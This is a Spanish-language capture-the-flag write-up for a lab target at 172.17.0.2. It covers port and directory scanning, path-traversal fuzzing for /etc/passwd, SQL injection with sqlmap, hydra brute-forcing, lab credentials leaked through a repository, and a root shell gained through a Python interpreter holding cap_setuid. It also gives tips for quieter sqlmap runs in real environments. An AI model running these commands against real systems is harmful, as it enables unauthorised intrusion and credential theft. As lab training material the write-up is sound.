<h1 align="center">[Writeup] PRODUCTION WEB - Reporte de Vulnerabilidad</h1>

**Dificultad:** Insano (★★★★★☆☆☆)

**Categoría:** Web / Descubrimiento de Credenciales / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 21-08-2026

**Plataforma**: WhoAmI-Labs.com

---

# Descripción
"Laboratorio pedagógico de Capabilities (Nivel Insane). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: CapabilitiesLabs/production-web, requiriendo obtener acceso inicial y comprometer el sistema."

---

## 1. Fase de Reconocimiento y Enumeración

### Escaneo Inicial de Puertos

Se realizó un descubrimiento de servicios en el host objetivo `172.17.0.2` utilizando la herramienta `nmap`:

```
nmap -sC -sV -p- -T4 --min-rate 1000 172.17.0.2
```

**Resultados del escaneo:**


----
### 1.2 Fuzzing de Directorios (Gobuster)

Para explorar la superficie del servidor web, se ejecutó un escaneo de directorios con `gobuster` buscando extensiones comunes (`.php`, `.txt`, `.html`, `.bak`...):

Comando Utilizado:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,bak,old,conf,js,json,zip,rar,py
```



Dado que el FTP requería usuario y password, se procedió a la inspección web, el cual solo tenia una pagina index.php con credenciales, las cuales aun no obteníamos:


Se procede a busqueda de LFI, mediante el comando:
```
ffuf -u "http://172.17.0.2/index.php?FUZZ=../../../../../../etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt  -fs 5869
```



sin novedades a la vista, se ejecuta la siguiente instrucción para revisar si el formulario "login" es vulnerable a inyecciones SQL mediante la ejecución del siguiente comando:
```
sqlmap -u "http://172.17.0.2/index.php" --forms --batch --dump --level 5 --risk 3 
```
Obteniendo:



```
		FTP Backup admin - arnoldo.admin:od2026@!12*
		   Developer     - maria.dev:jH7#pL9$wQ
		   SysAdmin      - carlos.sys:bV4*xZ1@mN
```

# Nota metodológica: SQLMap Sigiloso: 

No se recomienda usar el comando anterior en entornos reales, ya que es bastante agresiva y ruidosa. Para entornos reales se recomiendan pruebas, **por ejemplo**:

**Paso 1 — Detección (rápida y liviana, sin `--dump`):**
```
sqlmap -u "http://172.17.0.2/index.php" --forms --batch --level 1 --risk 1        --delay 2 --random-agent --threads 1 --technique=BT
```
Esto confirma si el formulario es inyectable usando solo boolean-based y time-based (las técnicas más livianas para detectar), sin forzar UNION todavía. Es rápido y de bajo perfil.

**Paso 2 — Extracción (una vez confirmada la inyección):**
```
sqlmap -u "http://172.17.0.2/index.php" --forms --batch --dump --technique=U      --delay 2 --random-agent --threads 1
```
Ahora que sqlmap ya sabe (por la sesión guardada) dónde está el punto de inyección y cuántas columnas tiene, extraer con UNION es casi instantáneo — no repite la fase de prueba de columnas, va directo al dump.

Un enfoque más realista separa detección y extracción: primero se confirma la inyección con técnicas livianas (boolean/time-based), y recién luego se extrae con UNION, aprovechando que sqlmap reutiliza la sesión ya detectada. Forzar `--technique=U` desde el inicio obliga a sqlmap a probar rangos de columnas a fuerza bruta en cada parámetro, lo cual es lento e ineficiente para la fase de detección.

---
## 2. Credenciales y acceso FTP/SSH:

Las tres credenciales servían para el ingreso a la pagina web, la cual no dio mucho en cuanto a avances:


---
## 2.1 - Acceso FTP:

Con las credenciales y otras variaciones de usuario, también se probó en los servicios FTP y SSH:
Comando:
```
hydra -L users.txt -P passwords.txt ssh://172.17.0.2 -t4 -V -u
```

                              (Sin Resultados)

Comando:
```
hydra -L users.txt -P passwords.txt ftp://172.17.0.2 -t4 -V -u
```


```
Credenciales ftp:
arnoldo.admin:od2026@!12*
```

dado el acceso al servidor ftp, se procedió a la investigación, encontrando un archivo de texto en la ruta  /deployments/2026/q1/logs

También se constató la existencia de ficheros `.bash_logout`, `.bashrc` y `.profile`, dando a entender estar dentro de un directorio /home del usuario  `arnoldo.admin`, pero al no tener permisos de escritura dentro del FTP, no era mucho lo que se podía hacer más que rescatar la nota `notas_despliegue.txt`

.

notas_despliegue:
```
REPORTE DE DESPLIEGUE Q1 2026
---------------------------
Estado: Exitoso
Estado del Codigo: Sincronizado
Nota: Las credenciales del servidor de despliegue y la documentacion de arquitectura han sido movidas al repositorio oficial de GitHub de la empresa (soportewhoamilabs) en el ultimo commit para facilitar el CI/CD.
```
Link: http://github.com/soportewhoamilabs/

Tal y como dice la nota, investigando dentro del repositorio, encontramos un par de cosas interesantes, como, nombres, usuarios, servicios, passwords, etc:






---
## 2.2 - Acceso SSH:
Agregados los nuevos datos a los diccionarios hechos para probar los servicios, se vuelven a probar, esta vez solo para el servicio SSH:

Comando:
```
hydra -L users.txt -P passwords.txt  ssh://172.17.0.2 -t4 -V -u
```


```
Credenciales SSH:
prod-web-repo:45!lM21*1@*2026!3
```
---
## 3. Reconocimiento Post Explotación:
---
## 3.1. **Reconocimiento inicial post-SSH** (`whoami`, `id`, `sudo -l`)

```
prod-web-repo@production-web:~$ whoami
prod-web-repo
prod-web-repo@production-web:~$ id
uid=1001(prod-web-repo) gid=1001(prod-web-repo) groups=1001(prod-web-repo)

```

- Bandera de usuario:


```
Bandera de Usuario:

user{b3w4r3_0f_l34k3d_c0mm1ts_1n_pr0d}
```

**Intento 1 — `find` con SUID (fallido, con trampa):**

- `find -perm -4000` mostró el binario.


- `find . -exec /bin/bash -p \; -quit` disparó el mensaje falso de "Security Violation".
- Investigación posterior (`cat /usr/local/bin/find`) reveló que era un wrapper de bash que solo bloqueaba la cadena `-exec`, y que el binario "real" invocado (`find.real`) tampoco servía porque el wrapper en sí, al ser un script, no hereda privilegios SUID reales (el kernel ignora SUID en scripts).


 **Intento 2 — Cron job (`/opt/sync_prod.sh`) — descartado por permisos:**

- Corría como root cada minuto, pero ni el script ni `/opt/`, ni `/var/www/html`, ni `/var/backups/` eran escribibles por el usuario comprometido.


**Intento 3 — Sesión de tmux compartida (`/var/shared_tmux/socket_prod`) — descartado:**

- Socket con permisos abiertos, sesión llamada `root_session`, pero el proceso en realidad corría con el UID del propio usuario (no root real), y al interactuar con `Ctrl+C` se tumbó toda la sesión (y en un caso, el contenedor completo), obligando a reiniciar el lab.



**Hallazgo real — Linux Capabilities:**

- `getcap -r /` sin ruta no devolvía nada porque `/usr/sbin` no estaba en el `PATH` del usuario.
- `/usr/sbin/getcap -r /` (ruta absoluta) sí funcionó, revelando `cap_setuid=ep` en `/opt/dev-tools/runner`.
- Ese binario resultó ser el intérprete de Python.
- Escalada con `os.setuid(0)` (sin `setgid`, porque esa capability no estaba presente y tirar `os.setgid(0)` sin ella rompía el script con `PermissionError`).



---
## Escalada a Root:

```
Pasos:

1- /usr/sbin/getcap -r / 2>/dev/null
2- /opt/dev-tools/runner -c 'import os; os.setuid(0); os.system("/bin/bash")'
3- whoami
4- id
5- cd /root; ls -la 
6- cat root.txt

```



---



```
Bandera Root:

root{l1nux_c4p4b1l1t13s_4r3_s1l3nt_k1ll3rs}
```
----
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()

---

## Conceptos Claves:
## TMUX:

`tmux` (terminal multiplexer) es una herramienta que permite crear, gestionar y mantener sesiones de terminal persistentes, incluso después de cerrar la conexión SSH que las originó. Una sesión de tmux sigue "viva" en el servidor aunque el usuario se desconecte, y se puede retomar (`attach`) más tarde desde la misma u otra sesión SSH.

Cada instancia de tmux corre como un **servidor** que escucha en un **socket Unix** (un archivo especial en el sistema de archivos, no una conexión de red). Por default, ese socket se crea en una ruta como `/tmp/tmux-<UID>/default`, accesible solo por el usuario que la creó. Pero tmux también permite indicar una ruta de socket **custom** con el flag `-S`, como en este caso: `/var/shared_tmux/socket_prod`.

**¿Por qué podría ser un vector de ataque?**

Un socket de tmux no tiene autenticación propia más allá de los **permisos del sistema de archivos** sobre ese archivo de socket. Es decir: **quien tenga permiso de lectura/escritura sobre el archivo del socket puede conectarse (`attach`) a esa sesión y controlarla como si fuera el usuario que la inició** — sin necesidad de contraseña, sudo, ni ningún otro mecanismo de autenticación adicional.
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()
[]()

## Runner (/opt/dev-tools/runner):

No se asumió de antemano qué era el binario `runner` — el nombre sugería una posible herramienta de ejecución de código, pero la confirmación real vino de invocarlo con `--help` y reconocer, por el formato y contenido del mensaje de ayuda, que se trataba del intérprete de Python. Esto es un buen recordatorio de que, ante binarios desconocidos con capabilities o SUID interesantes, `--help`, `-h`, `-V`/`--version`, o incluso `file` sobre el binario, son pasos rápidos y de bajo riesgo para identificar qué es realmente antes de intentar explotarlo a ciegas.

**Comparación:**

```
/opt/dev-tools/runner --help
```

